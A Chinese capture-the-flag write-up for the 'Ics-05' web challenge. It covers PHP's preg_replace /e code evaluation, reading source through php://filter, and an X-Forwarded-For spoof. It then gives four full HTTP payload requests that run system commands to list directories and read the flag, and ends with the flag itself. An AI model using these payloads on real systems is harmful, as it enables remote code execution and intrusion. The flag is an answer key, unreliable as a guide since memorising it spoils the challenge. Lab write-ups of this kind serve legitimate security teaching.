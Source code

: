 # Ics-05

> 题目提示其他破坏者会利用工控云管理系统设备维护中心的后门入侵系统,说明网站已被入侵

## 涉及函数

### preg_replace

> mixed preg_replace(mixed $pattern, mixed $replacement, mixed $subject[, int $limit = -1 [, int &$count]]),搜索subject中匹配pattern的部分,以 replacement进行替换

> preg_replace()函数存在一个安全问题,/e修正符使preg_replace()将replacement参数当作PHP代码去执行(在适当的逆向引用替换完之后).提示:要确保replacement构成一个合法的PHP代码字符串,否则PHP会在报告在包含preg_replace()的行中出现语法解析错误.

## PHP文件包含漏洞常用伪协议

```
file:// 访问本地文件系统
http:// 访问http(s）网址
ftp:// 访问ftp
php:// 访问各个输入/输出流
zlib:// 压缩流
data:// 数据
rar:// RAR压缩包
ogg:// 音频流
```

## filters类型

> String Filters: string.rot13、string.toupper、string.tolower、string.strip_tags

> Conversion Filters: convert.base64-encode & convert.base64-decode、convert.quoted-printable-encode & convert.quoted-printable-decode、convert.iconv.*

> Compression Filters: zlib.deflate、zlib.inflate、bzip2.compress和bzip2.decompress

> Encryption Filters: mcrypt.*和 mdecrypt.*

> [官方文档]https://www.php.net/manual/zh/filters.php

> [使用参考](https://blog.csdn.net/qq_44657899/article/details/109300335)

## filters支持编码

```
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*
EUC-JP*
SJIS*
eucJP-win*
SJIS-win*
...
```

> [官方文档](https://www.php.net/manual/zh/mbstring.supported-encodings.php)

## 思路分析

> 题目提示其他破坏者会利用工控云管理系统设备维护中心的后门入侵系统,说明网站已被入侵,要想得到flag,需要读取出文件找出后门,可用伪协议php://读取文件,php://filter/read=convert.base64-encode/resource=index.php,得到的结果base64解码得到源码.从源码中可以看到,首先要设置X-Forwarded-For为127.0.0.1才能继续下去触发后门,要传入pat、rep、sub这三个参数.然后就利用preg_replace的弱点去执行命令

## payload

```
GET /index.php?pat=/test/e&rep=system("ls")&sub=test HTTP/1.1
Host: 61.147.171.105:50196
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=8350ed146782d59d3f54a51262755aa4
X-Forwarded-For: 127.0.0.1
Connection: close
```

```
GET /index.php?pat=/test/e&rep=system("ls+s3chahahaDir")&sub=test HTTP/1.1
Host: 61.147.171.105:50196
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=8350ed146782d59d3f54a51262755aa4
X-Forwarded-For: 127.0.0.1
Connection: close
```

```
GET /index.php?pat=/test/e&rep=system("ls+s3chahahaDir/flag")&sub=test HTTP/1.1
Host: 61.147.171.105:50196
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=8350ed146782d59d3f54a51262755aa4
X-Forwarded-For: 127.0.0.1
Connection: close
```

```
GET /index.php?pat=/test/e&rep=system("cat+s3chahahaDir/flag/flag.php")&sub=test HTTP/1.1
Host: 61.147.171.105:50196
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=8350ed146782d59d3f54a51262755aa4
X-Forwarded-For: 127.0.0.1
Connection: close
```

## flag

> cyberpeace{80e1826881bdb54473f822560d1866b3}
